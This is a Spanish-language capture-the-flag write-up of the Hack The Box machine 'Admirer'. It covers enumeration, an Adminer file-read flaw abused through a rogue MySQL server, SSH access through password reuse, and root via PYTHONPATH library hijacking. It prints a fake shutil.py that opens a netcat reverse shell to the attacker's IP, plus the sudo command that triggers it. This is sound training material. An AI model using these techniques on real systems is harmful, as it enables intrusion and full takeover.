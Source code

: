 # Admirer WriteUp
Volver al [Indice](README.md)

Comenzamos con la segunda máquina de HTB, en este caso como acaba de ser retirada, les traigo la máquina "Admirer", ha sido creada por "polarbearer & GibParadox", cuenta con una dificultad de 5.3 sobre 10, por lo que se encuentra en el rango de "Medium" y tiene una puntuación de 3.4 sobre 5.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*  
Como normalmente, vamos a lanzar un nmap a los 65535 puertos para enumerar rápidamente los servicios de la máquina.

![nmap1](images/htb/admirer/nmap1.png)

Después vamos a lanzar otro nmap para verificar los servicios y la versión de estos.

![nmap2](images/htb/admirer/nmap2.png)

Vemos que tiene:
* Puerto 21 => un FTP (pero sin acceso anónimo habilitado).
* Puerto 22 => Encontramos el servicio SSH (pero se encuentra en una versión en la que no podemos explotar prácticamente nada, así que no vamos a  buscar ningún exploit).
* Puerto 80 => Con un apache (Al acceder a él solo vemos la página inicial).

Viendo esto, vamos a lanzar la herramienta dirsearch en búsqueda de directorios. Nos encuentra simplemente el directorio **"robots.txt"** de interés.

![dirsearch1](images/htb/admirer/dirsearch.png)

Accedemos al directorio robots y encontramos que existe un directorio llamado "admin-dir" el cual parece basante interesante.

Lo colocamos a ver que contiene y vemos que nos da un error 403(Forbidden).

![robots](images/htb/admirer/robots.png)

Pero... Este error 403 no nos impide lanzar una busqueda con dirsearch a ese directorio... Si encontramos algo podríamos acceder a el saltándonos este error.

![dirsearch2](images/htb/admirer/dirsearch2.png)

¡Perfecto!, hemos encontrado 2 directorios con código 200, descargamos los ficheros y encontramos las credenciales para acceder al FTP.

![files](images/htb/admirer/files.png)

Accedemos al FTP y encontramos 2 ficheros (uno contiene un dump de la BD y el otro un archivo comprimido).

![ftp](images/htb/admirer/ftp.png)

En el archivo **"dump.sql"** no encontramos nada pero al descomprimir el otro archivo encontramos varios directorios que parecen un backup de la web.

Entre ellos hay un directorio al que podemos acceder vía web con varios scripts, pero no contienen nada lo suficientemente relevante.

Lanzamos una búsqueda con dirsearch a este directorio y nos encuentra un archivo el cual nos lleva a una aplicación web para conectar con una base de datos. 

Probamos credenciales por defecto y otras que hemos encontrado en alguno de los archivos anteriores descomprimidos pero no tenemos acceso.

![dirsearch3](images/htb/admirer/dirsearch3.png)

![adminer](images/htb/admirer/adminer.png)

Comprobamos en Google si encontramos alguna vulnerabilidad y/o exploit para esta aplicación (Adminer 4.6.2) y **¡BIEN!**, existe una vulnerabilidad para poder acceder a ella sin credenciales.  
Creando una base de datos localmente y accediendo a ella a través de esta aplicación podríamos visualizar el contenido.

Dejo el enlace a la página donde encontré la vulnerabilidad: [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

## *# Explotación*
Dejo por aquí los pasos que he seguido para crear la base de datos en mi equipo, decir que si vosotros no usáis las mismas versiones o aplicaciones que yo pueden variar:
* CREATE DATABASE admirer;
* CREATE USER 'borb3d'@'%' IDENTIFIED BY 'borb3d';
* GRANT ALL PRIVILEGES ON * . * TO 'borb3d'@'%';
* FLUSH PRIVILEGES;
* use admirer;
* create table test(data VARCHAR(255));
* En el archivo "/etc/mysql/mariadb.conf.d/50-server.cnf" debemos de añadir la línea "bind-address      =0.0.0.0"
* Reiniciamos el servicio (systemctl restart mysql)

![database](images/htb/admirer/DB1.png)
![dbConf](images/htb/admirer/dbConf.png)

Con esto ya podríamos volver a la aplicación web y acceder con nuestros datos.

![dbLogin](images/htb/admirer/dbLog.png)

Y ¡estamos dentro!

![dbOkLog](images/htb/admirer/dbLog.png)

Ya dentro de la aplicación, accedemos al apartado "Comando SQL" para poder ejecutar nuestra consulta y ver datos que no se deberían ver.

En este apartado lanzamos la siguiente consulta:
> load data local infile '../index.php'
> into table test
> fileds terminated by "/n"

![queryOK](images/htb/admirer/queryOk.png)

Después de esto solo tenemos que ir a la pestaña "registros", a la izquierda, para poder visualizar nuestra consulta.

![bdCred](images/htb/admirer/BDcred.png)

Ya tenemos las credenciales, vamos a probar con el servicio SSH por si han reutilizado las contraseñas.

Y parece que **SI**, conseguimos conectarnos al servidor como el usuario "Waldo", cogemos la flag de user y seguimos.

![userFlag](/images/htb/admirer/userFlag.png)

## *# Post-Explotación*
Vamos a ver como podríamos escalar privilegios por aquí.  
Como siempre, vamos a probar con el comando sudo -l para ver que privilegios tenemos como ROOT, y vemos que poseemos este privilegio.  
```(ALL) SETENV: /opt/scripts/admin_tasks.sh```

![sudo -l](images/htb/admirer/sudo-l.png)

Examinamos a fondo ese script y vemos que está todo correcto en cuanto a rutas absolutas a los binarios... Pero vemos que en una de las funciones llama a un archivo python del mismo directorio, así que lo revisamos también.

![scriptAdmin](images/htb/admirer/scriptAdmin.png)

Vemos que el archivo llama a una librería, vamos a intentar falsear la ruta de la libreria con PYTHONPATH.

![shutil.py](images/htb/admirer/shutiPY.png)

Para comenzar, vamos a elegir un directorio en el que tengamos permiso de escritura para realizar nuestro script, "/tmp" por ejemplo.  
* Dentro creamos un archivo llamado shutil.py (que es el nombre del módulo que vamos a falsear).
* En el archivo colocamos el código que queramos ejecutar como ROOT (en mi caso, una Reverse Shell) <Debemos mantener la estructura del archivo original(su función con sus parámetros para que no nos de error)>.  

 ~~~
import os  # importamos la librería que vamos a utilizar

def make_archive(a, b, c):  # Definimos la función que llama el script original (manteniendo las 3 variables para que no haya error)
    os.system("nc 10.10.15.81 4444 -e '/bin/sh'")  # Le mandamos nuestra reverse shell para que la ejecute
~~~

![scriptYexec](/images/htb/admirer/scriptYejc.png)

Abrimos otra consola y la dejamos en escucha por el puerto que colocamos anteriormente (en mi caso 4444).

Lanzamos el comando ```'sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6'``` (para que nos coja la ruta de nuestra librería falsa en lugar de la original y poder falsearlo) y le pasamos el parámetro 6 que sería el que ejecuta el script de python (se puede lanzar directamente o después).

![flagRoot](images/htb/admirer/flagRoot.png)

y...¡Somos ROOT!
